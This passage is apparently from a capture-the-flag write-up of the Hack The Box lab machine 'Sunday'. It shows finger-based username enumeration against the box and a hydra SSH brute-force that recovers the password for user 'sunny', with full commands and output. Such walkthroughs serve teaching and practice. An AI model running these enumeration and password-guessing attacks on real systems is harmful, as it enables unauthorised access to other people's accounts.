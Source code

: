 ```sh
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Sun Oct  1 19:16:00 2023 #########
16 results.

10177 queries in 2812 seconds (3.6 queries / sec)
```
We see three possible users
- `root`
- `sammy`
- `sunny`

```sh
┌─[george@parrot]─[~/HTB/boxes/sunday/finger-user-enum]
└──╼ $ finger sunny@10.10.10.76
Login       Name               TTY         Idle    When    Where
sunny           ???                         <Oct  1 14:41>
┌─[george@parrot]─[~/HTB/boxes/sunday/finger-user-enum]
└──╼ $ finger sammy@10.10.10.76
Login       Name               TTY         Idle    When    Where
sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         
┌─[george@parrot]─[~/HTB/boxes/sunday/finger-user-enum]
└──╼ $ finger root@10.10.10.76
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14, 2022>
```

`root` seems to have a physical access to the box

### Shell as Sunny
I note the `sunny` user has had access to the box latest today unlike other users. I will take the username and try bruteforcing the password

Firing up `hydra` and using the password list `/opt/Seclists/Passwords/days.txt` since the box is named after a day of the week, i fugured why not.

```sh
┌─[george@parrot]─[~/HTB/boxes/sunday]
└──╼ $ hydra -l sunny -P /opt/Seclists/Passwords/days.txt ssh://10.10.10.76:22022
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-01 19:38:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 6240 login tries (l:1/p:6240), ~390 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 6064 to do in 00:34h, 16 active
[STATUS] 140.33 tries/min, 421 tries in 00:03h, 5824 to do in 00:42h, 16 active
[STATUS] 128.71 tries/min, 901 tries in 00:07h, 5344 to do in 00:42h, 16 active
[STATUS] 124.07 tries/min, 1861 tries in 00:15h, 4384 to do in 00:36h, 16 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-01 20:04:15
```
Luckily i got a hit. Password is `sunday` lol! I should have figured that out.

